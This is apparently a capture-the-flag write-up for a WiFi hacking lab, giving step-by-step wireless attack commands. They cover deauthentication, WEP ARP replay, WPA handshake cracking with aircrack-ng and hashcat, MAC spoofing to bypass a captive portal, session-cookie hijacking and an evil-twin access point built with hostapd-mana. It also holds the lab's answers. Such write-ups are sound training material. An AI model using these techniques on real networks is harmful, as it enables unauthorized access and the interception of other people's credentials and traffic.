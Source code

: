 # WiFi Challenge

## Recon

### What is the channel that the wifi-global Access Point is currently using?

Start a monitoring interface

```
sudo airmon-ng start wlan0mon
```

and scan for the APs

```
sudo airodump-ng wlan0mon -b a
```

<figure><img src="../.gitbook/assets/immagine (3).png" alt=""><figcaption></figcaption></figure>

### What is the MAC of the wifi-IT client?

Wifi-IT channel is 11 so we need to find client on the channel 11

```
sudo airodump-ng wlan0mon -c 11
```

<figure><img src="../.gitbook/assets/immagine (4).png" alt=""><figcaption></figcaption></figure>

### What is the probe of 78:C1:A7:BF:72:46?

```
sudo airodump-ng wlan0mon 
```

### What is the ESSID of the hidden AP (mac F0:9F:C2:6A:88:26)?

```bash
cat ~/rockyou-top100000.txt | awk '{print "wifi-" $1}' > ~/wifi-rockyou.txt
```

Once we have the modified dictionary we can use “mdk4” to launch probes with each of the ESSIDs until the AP responds.

```bash
airmon-ng start wlan0 
iwconfig wlan0mon channel 11
mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f ~/wifi-rockyou.txt
```

## OPN

### What is the flag in the hidden AP router behind default credentials?

Once we know your ESSID we can connect to the network, for that we create a “free.conf’ file to connect from bash using “wpa\_supplicant”.

```bash
network={
	ssid="$ESSID"
	key_mgmt=NONE
	scan_ssid=1
}
```

```bash
wpa_supplicant -Dnl80211 -iwlan2 -c free.conf
```

In another terminal as root:

```bash
dhclient wlan2 -v
```

Once connected to the network and get IP with “dhclient” we can access the IP at IP 192.168.16.1 where we see a login where we can test default credentials such as admin/admin, accessing the admin panel where you can find the flag.

### What is the flag on the AP router of the wifi-guest network?

For this challenge we have to access the wifi-guest network and bypass the captive portal. We can connect with the same method as in the previous challenge, but when we try to access the AP we find a captive portal that asks us for credentials. The AP is in the channel 6, so can monitor it first.

To bypass this login we can use the MAC of a client connected to that network that we see with traffic, for that we can use airodump-ng again and impersonate one of those MAC.

```bash
systemctl stop network-manager
ip link set wlan2 down
macchanger -m b0:72:bf:44:b0:49 wlan2
ip link set wlan2 up
```

next we can connect again

```bash
wpa_supplicant -Dnl80211 -iwlan2 -c open.conf
```

```bash
sudo dhclient -v wlan2
```

<figure><img src="../.gitbook/assets/openlogin.png" alt=""><figcaption></figcaption></figure>

To obtain the login credentials we make a capture of “airodump-ng” saving the output with “-w” and after a while (3–5 min approx) we can see HTTP requests in the “.cap” file with “wireshark” in which there is a POST with username and password.

## WEP

### What is the flag on the wifi-old AP website?

Start by launching airdump on th wifi

```
sudo airodump-ng -c 3 -w old --essid wifi-old --bssid F0:9F:C2:71:22:11 wlan0mon
```

<figure><img src="../.gitbook/assets/immagine (7).png" alt=""><figcaption></figcaption></figure>

and then launch arp attack with airplay

```
sudo aireplay-ng -3 -b F0:9F:C2:71:22:11 -h CE:62:DE:B1:FC:73 wlan0mon
```

now you can use aircrack to crack the password

```
aircrack-ng old-02.cap
```

<figure><img src="../.gitbook/assets/immagine (8).png" alt=""><figcaption></figcaption></figure>

Once we have the password we can connect to the WEP network:

Create a configuration file to connect to the WEP network.

```bash
nano wep.conf
```

The content should look like this.

```bash
network={
  ssid="wifi-old"
  key_mgmt=NONE
  wep_key0=11bb33cd55
  wep_tx_keyidx=0
}
```

Now we can connect to the WEP network with our configuration file.

```bash
wpa_supplicant -D nl80211 -i wlan2 -c wep.conf
```

We should try to retrieve an IP address from the DHCP server.

```bash
dhclient wlan2 -v
```

## PSK

### What is the wifi-mobile AP password?

For this challenge we have to obtain the password of a normal PSK network, for this we have to monitor the traffic with “airodump-ng” and wait for a client to connect or force a deauth attack with “aireplay-ng”.

```bash
airodump-ng -c 6 -w mobile --essid wifi-mobile --bssid F0:9F:C2:71:22:12 wlan0mon
```

In parallel

```bash
aireplay-ng -0 10 -a F0:9F:C2:71:22:12 wlan0mon
```

and then crackit&#x20;

```
aircrack-ng -w rockyou-top100000.txt mobile-01.cap
```

<figure><img src="../.gitbook/assets/immagine (9).png" alt=""><figcaption></figcaption></figure>

### What is the IP of the web server in the wifi-mobile network?

If we have a handshake and the network password, we can decrypt the traffic of each of the users after the handshake, making it very similar to the open networks in the previous section.

For this we can use “airdecap-ng” and then open the generated file with “Wireshark” to obtain the IP of the HTTP server.

```bash
airdecap-ng -e wifi-mobile -p starwars1 mobile-01.cap
```

then open the decrypted file with wireshark. get the cookie **PHPSESSID=u7bbth00ot6na3uinle9ll2i2a**

### what is the flag after login in wifi-mobile?

The first thing we have to do is to connect to the network, for that we can use “wpa\_supplicant” again, with the following configuration file mobile.conf

```bash
network={
    ssid="wifi-mobile"
    psk="starwars1"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}
```

```bash
wpa_supplicant -Dnl80211 -iwlan3 -c mobile.conf
```

```bash
dhclient wlan3 -v
```

inject the cookie in the website

### Is there client isolation in the wifi-mobile network?

To do this we can use “arp-scan” to get the IPs and curl their HTTP server to get the flag.

```bash
arp-scan -I wlan3 -l
curl 192.168.2.7
```

### What is the wifi-offices password?

The wifi-offices network is not visible, so it is in another location or maybe it is no longer there, but we can still get its password by creating a fake AP with “hostapd-mana” and get the handshake of the clients that ask for this network in their Probes to perform a dictionary attack against it and get the password in clear text.

hostapd.conf

```bash
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=wifi-offices
mana_wpaout=hostapd.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```

```bash
hostapd-mana hostapd.conf
```

<figure><img src="../.gitbook/assets/hostapd-mana.png" alt=""><figcaption></figcaption></figure>

Once we have obtained the handshake we can crack it using “hashcat”

```bash
hashcat -a 0 -m 2500 hostapd.hccapx ~/rockyou-top100000.txt --force
```
